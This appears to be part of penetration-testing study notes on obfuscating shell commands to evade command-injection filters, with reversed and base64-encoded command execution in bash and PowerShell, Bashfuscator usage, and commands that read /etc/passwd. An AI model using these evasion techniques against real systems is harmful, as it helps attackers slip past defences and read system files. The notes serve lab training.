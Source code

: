 ### Windows - PowerShell

```bash
PS C:\htb> "whoami"[-1..-20] -join ''

PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
```

## **Encoded Commands**

### Linux

```bash
echo -n 'cat /etc/passwd | grep 33' | base64

> Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

> www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

### Windows - PowerShell

```bash
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

The same with linux…

```
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```

# **Evasion Tools**

## **Linux (Bashfuscator)**

```bash
bashfuscator -c 'cat /etc/passwd'
```

**Note:** Running the tool this way will randomly pick an obfuscation technique, which can output a command length ranging from a few hundred characters to over a million characters

## Using filters

```bash
bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```
